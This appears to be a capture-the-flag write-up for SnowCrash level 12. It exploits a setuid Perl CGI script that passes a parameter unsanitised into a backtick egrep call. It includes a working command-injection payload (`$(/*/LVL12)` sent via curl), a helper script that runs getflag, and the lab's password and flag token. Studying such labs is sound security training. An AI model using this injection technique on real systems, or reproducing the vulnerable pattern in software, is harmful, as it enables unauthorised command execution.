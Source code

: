 # Level 12

```bash
$ ssh level12@10.11.200.180 -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.11.200.180
level12@10.11.200.180's password: fa6v5ateaw21peobuub8ipe6s
```

```bash
$ level12@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
```

As we can see `level12.pl` is a perl

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; # y param
  $xx = $_[0]; # x param
  $xx =~ tr/a-z/A-Z/; # Capitalize the argument x
  $xx =~ s/\s.*//; # Keep only first word
  @output = `egrep "^$xx" /tmp/xd 2>&1`; # Here we can make our injection because $xx is not protected
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y"))); # take 2 params, x and y
```

So, we will call a script who call our `/tmp/LVL12` :
```bash
#!/bin/bash
whoami > /tmp/flag
getflag >> /tmp/flag
```

We put it execution rights

```bash
chmod +x /tmp/LVL12
```

And we call to the script with `$(/*/LVL12)`

```bash
level12@SnowCrash:~$ curl localhost:4646'?x=$(/*/LVL12)'
..
```

So, as we can see, the file `/tmp/flag` has been correctly created with the user, and the flag.

```bash
level12@SnowCrash:~cat /tmp/flag
flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

----
Documentation:
* https://nets.ec/Command_Injection
